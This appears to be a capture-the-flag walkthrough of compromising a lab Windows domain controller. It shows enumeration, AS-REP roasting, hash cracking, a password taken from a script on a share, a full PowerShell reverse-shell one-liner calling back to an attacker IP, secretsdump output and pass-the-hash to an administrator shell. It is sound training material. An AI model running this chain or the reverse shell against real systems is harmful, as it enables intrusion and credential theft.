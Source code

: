 # VulnNet: Roasted
### Enumeration
```
# Nmap 7.92 scan initiated Sun May  1 23:16:27 2022 as: nmap -sCV -v -oN tcp_1000.out 10.10.143.158
Nmap scan report for ip-10-10-143-158.eu-west-1.compute.internal (10.10.143.158)
Host is up (0.0020s latency).
Not shown: 991 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
53/tcp  open  domain?
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-01 23:16:38Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  tcpwrapped
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2022-05-01T23:18:55
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  1 23:19:34 2022 -- 1 IP address (1 host up) scanned in 187.23 seconds
```

We see that the hostname is `vulnnet-rst.local`.

##### LDAP
```
ldapsearch -x -H ldap://10.10.188.15 -b "dc=vulnnet-rst,dc=local"
```

Anonymous access not allowed.

##### SMB
Anonymous access allowed.
```
$ crackmapexec smb 10.10.188.15 --shares -u anonymous -p ''
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\anonymous:
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  [+] Enumerated shares
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  Share           Permissions     Remark
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  -----           -----------     ------
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  ADMIN$                          Remote Admin
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  C$                              Default share
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  IPC$            READ            Remote IPC
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  NETLOGON                        Logon server share
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  SYSVOL                          Logon server share
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  VulnNet-Business-Anonymous READ            VulnNet Business Sharing
SMB         10.10.188.15    445    WIN-2BO8M1OE1M1  VulnNet-Enterprise-Anonymous READ            VulnNet Enterprise Sharing
```

There were some text files in both of the readable share volumes. They contained some potential usernames, but before we try to make our own userlist, we can try to brute force SIDs to get usernames (hit enter when prompted for a password):

```
$ impacket-lookupsid anonymous@10.10.188.15
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.10.188.15
[*] StringBinding ncacn_np:10.10.188.15[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

With usernames, we can tryo to AS-REP roast. I created the userlist using the command below:

```
cat sid_lookup | grep -v Alias | grep -v Group | grep -Po '(?<=: VULNNET-RST\\)(.*)(?= \()'  > users.txt
```

Running `impacket-GetNPUsers`, we get:

```
$ impacket-GetNPUsers -request -format hashcat -dc-ip 10.10.188.15 vulnnet-rst.local/ -usersfile users.txt
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:220b4807e7f793d73ad19df597363144$bb0aff6c6a2124e7376eed8c4cff69fbb15ece7b61726342be86de910964fa90dc02ecc596aeba32847b749ac9a04ac4610977575994b745ccd811bfd544f3b849ff79d8b9f12b78fdd098d881fbee8aa7eccd7cabd02c0ddba4ddc2ac75c9663f20a68a9448b674c8201dd9ed08839b81e50d3252e684e5f4920b1fba16d7a1697c0beefa5abbf569f6c1226d48e3859589836cd7739d119ecee8e2748a13959d24663ab212dcaeefd7357ca1a137f4bcac0407157b096cea0d065746d4e7717bf73c3d92935c145ac4339ab9bd2195da1d9e37c27d7d9e1eb24600f2fb56c72a5027517a143e4d995c8ab54930ffbe865c77f76b22
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We can try to crack this hash with hashcat:

```
hashcat -O -a 0 -m 18200 asrep-hashes /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

We get the password `tj072889*`, so the credentials are `t-skid:tj072889*`.

With credentials, we can see if we have further access to shares, which we do! We're now able to read `NETLOGON`, `SYSVOL` and `IPC$`.

We're now also able to query LDAP:

```
ldapsearch -x -b 'dc=vulnnet-rst,dc=local' -H ldap://10.10.176.107 -D 'vulnnet-rst\t-skid' -W
```

Returning to SMB, we spider using `crackmapexec`:

```
crackmapexec smb 10.10.176.107 -u t-skid -p 'tj072889*' -M spider_plus
```

We notice that there's a file `ResetPassword.vbs` in both `NETLOGON` and `SYSVOL` - let's grab it:

```
$ smbclient //10.10.176.107/NETLOGON -U t-skid
Enter WORKGROUP\t-skid's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 23:15:49 2021
  ..                                  D        0  Tue Mar 16 23:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 23:18:14 2021

                8771839 blocks of size 4096. 4524451 blocks available
smb: \> get ResetPassword.vbs
```

In this file we see the following:

```vb
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

Let's see if we have further permission to perhaps write to SMB, which would allow use to use `psexec` or `wmiexec`.

```
$ crackmapexec smb 10.10.176.107 -u a-whitehat -p 'bNdKVkjv3RR9ht' --shares
SMB         10.10.176.107   445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.176.107   445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)
```

```
$ impacket-wmiexec a-whitehat@10.10.176.107 -shell-type powershell
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\>
```

This shell is quite slow, so I'm going to get a reverse shell instead using the one-liner below. Note, this comes from [this gist](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1), but I had to remove the prompt (`+ "PS " + (pwd).Path + "> "`), as Windows Defender was flagging this as malicious.

```
$client = New-Object System.Net.Sockets.TCPClient("10.11.72.110",445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Now we can grab the user flag from `C:\Users\enterprise-core-vn\Desktop\user.txt`.

We can also try to run `secretsdump`:

```
$ impacket-secretsdump a-whitehat@10.10.127.71

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
```

I've omitted a lot of output here, because all we care about is getting the administrator's hash. We can execute `wmiexec` with the hash to get an administrator shell:

```
$ impacket-wmiexec administrator@10.10.127.71 -hashes aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
vulnnet-rst\administrator
```

Now we can grab the system flag.